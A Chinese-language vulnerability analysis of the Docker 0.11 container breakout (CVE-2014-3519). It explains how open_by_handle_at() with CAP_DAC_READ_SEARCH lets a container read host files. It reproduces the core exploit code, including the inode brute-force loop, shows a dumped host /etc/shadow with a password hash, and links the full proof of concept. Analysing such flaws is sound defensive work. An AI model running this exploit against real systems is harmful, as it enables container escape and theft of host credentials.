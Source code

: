 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过

##组件介绍：
docker是一个开源的容器引擎，它对LXC进一步封装，从而达到操作系统层面上的虚拟化

##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。  
下面只是简略的描述其功能，更多关于CAP_DAC_READ_SEARCH的内容请查阅[capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html)

CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如果open_by_handle_at函数具有CAP_DAC_READ_SEARCH，那它就可以读取任意文件和文件夹。  

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中文件或者目录的文件描述符
- file_handle  一个文件或者目录的描述信息
- flags   The flags argument is as for open(2).

[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下:   


     struct file_handle {
          unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
          int           handle_type;    /* Handle type [out] */
           unsigned char f_handle[0];    /* File identifier (sized by
                                                    caller) [out] */
        };
    

file_handle结构中f_handle[0]为8位inode号。    
在大多数的文件系统中，根目录的inode号为2，这个信息提供了一个可以暴力破解的方式： 攻击者可以通过打开根目录,比较目录名和文件名，遍历inode号达到查看任意文件的目的。

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开宿主机任意文件，获得文件描述符

    //打开宿主机器上的任意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程  
查找目录：  

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
找到/etc目录，得到/etc的inode号  

暴力试验inode数字，找到文件: 

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：  
docker version 版本 <=0.11 均存在漏洞  
测试[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证

##影响版本：
docker版本 <=0.11 均存在漏洞

##相同漏洞：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##参考链接：
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek